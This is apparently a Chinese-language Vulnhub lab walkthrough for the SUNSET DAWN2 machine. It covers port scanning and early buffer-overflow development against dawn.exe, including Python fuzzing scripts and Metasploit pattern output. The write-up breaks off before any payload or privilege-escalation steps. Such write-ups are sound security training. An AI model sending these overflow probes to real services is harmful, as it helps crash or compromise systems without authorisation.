```yaml
---
layer: article
title: Vulnhub 424 SUNSET DAWN2
tags: pentest vulnhub Walkthrough
---
```


考点：windows缓冲区溢出

靶机链接：<https://www.vulnhub.com/entry/sunset-dawn2,424/>

## 环境配置

| 名称                            | IP        |
| ------------------------------- | --------- |
| Kali Linux                      | 10.0.2.15 |
| SUNSET DAWN2                    | 10.0.2.7  |
| Windows 调试机（Windows 7 X86） | 10.0.2.14 |



## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.7
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.7) [65535 ports]
Discovered open port 80/tcp on 10.0.2.7
Discovered open port 1985/tcp on 10.0.2.7
Discovered open port 1435/tcp on 10.0.2.7
PORT     STATE SERVICE   VERSION
80/tcp   open  http      Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
1435/tcp open  ibm-cics?
1985/tcp open  hsrp?
2 services unrecognized despite returning data.
```

80端口发现可以下载个压缩包dawn.zip，解压发现dawn.exe

1435端口和10985端口通过nc连接后，均无回显，猜测是dawn.exe运行在这两个端口之一。

这个靶机应该是考windows缓冲区溢出的。而且，这个dawn.exe大概率是linux环境通过wine运行的。

### 漏洞发现

把dawn.exe复制到windows调试机，运行后，发现可输入一些字符。

```cmd
C:\Users\John>tasklist|findstr dawn
dawn.exe                      2800 Console                    1      2,232 K
C:\Users\John>netstat -ano|findstr 2800
  TCP    0.0.0.0:1985           0.0.0.0:0              LISTENING       2800
```

由此判定靶机1985端口运行的大概率是dawn.exe

使用脚本进行调试

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "A" * 300
nullByte = "\x00"
inputBuffer = buff + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
s.close()
```

运行后，dawn.exe 停止工作，说明存在缓冲区溢出漏洞。

## 获得权限

### 本地测试

继续测试

使用Immunity Debugger 打开dawn.exe并运行

使用msf-pattern_create生成字符串

```bash
$ msf-pattern_create -l 300   
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

确定位置

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
nullByte = "\x00"
inputBuffer = buff + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```



### 靶机测试

## 提权
